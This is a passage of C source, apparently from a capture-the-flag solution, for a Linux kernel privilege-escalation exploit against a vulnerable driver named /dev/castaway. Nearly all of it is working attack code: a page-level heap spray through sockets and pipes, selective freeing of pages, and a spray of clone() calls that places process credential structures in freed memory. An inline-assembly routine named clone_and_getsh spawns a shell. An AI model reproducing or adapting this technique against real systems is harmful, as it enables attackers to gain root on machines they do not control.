 ```c
        "mov rax, 35;"
        "syscall;"              //nanosleep()
        "ret;");
}
__attribute__((naked)) pid_t clone_and_getsh(uint64_t flags, void *dest)
{

    asm("mov r15, rsi;"
        "xor rsi, rsi;"
        "xor rdx, rdx;"
        "xor r10, r10;"
        "xor r9, r9;"
        "mov rax, 56;"
        "syscall;"
        "cmp rax, 0;"
        "jl bad_end;"
        "jg good_end;"
        "jmp r15;"
        "bad_end:"
        "neg rax;"
        "ret;"
        "good_end:"
        "ret;");

}
int main()
{   pipe(rootfd);
    pipe(pipe_parent_read);
    pipe(pipe_child_read);
    struct request request_cmd;
    size_t result;
    puts("Step 1: Open the vulnurability driver...");
    size_t fd = open("/dev/castaway", O_RDONLY);
    bind_core(0);
    //create child process and Cyclically waiting for the parent process to send commands to allocate or release pages
    puts("Step 2: Construct two pipe for communicating in those namespace...");
    socker_page_spray_prepare();
    sleep(0x1);
    //spray page
    puts("Step 3: use setsocket to heap spray many one page ");
    for(int i = 0; i < 0x400; i++){
        request_cmd.cmd=alloc_page;
        request_cmd.idx=i;
        write(pipe_child_read[1],&request_cmd,sizeof(request_cmd));
        read(pipe_parent_read[0],&result,sizeof(result));
    } 
    puts("Step 4: spray free next one page to use cred ");
    for(int i = 0x400/2+1; i < 0x400; i+=2){
        request_cmd.cmd=free_page;
        request_cmd.idx=i;
        write(pipe_child_read[1],&request_cmd,sizeof(request_cmd));
        read(pipe_parent_read[0],&result,sizeof(result));
    } 
    puts("Step 5: spray clone to alloc page to use cred ");
    for(int i = 0; i < 0x100; i++){
            clone_and_getsh(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND,&check_and_wait);
    } 
    puts("Step 6: spray free front one page to use the castaway_ioctl_add ");
    for(int i = 0x400/2; i < 0x400; i+=2){
        request_cmd.cmd=free_page;
        request_cmd.idx=i;
        write(pipe_child_read[1],&request_cmd,sizeof(request_cmd));
```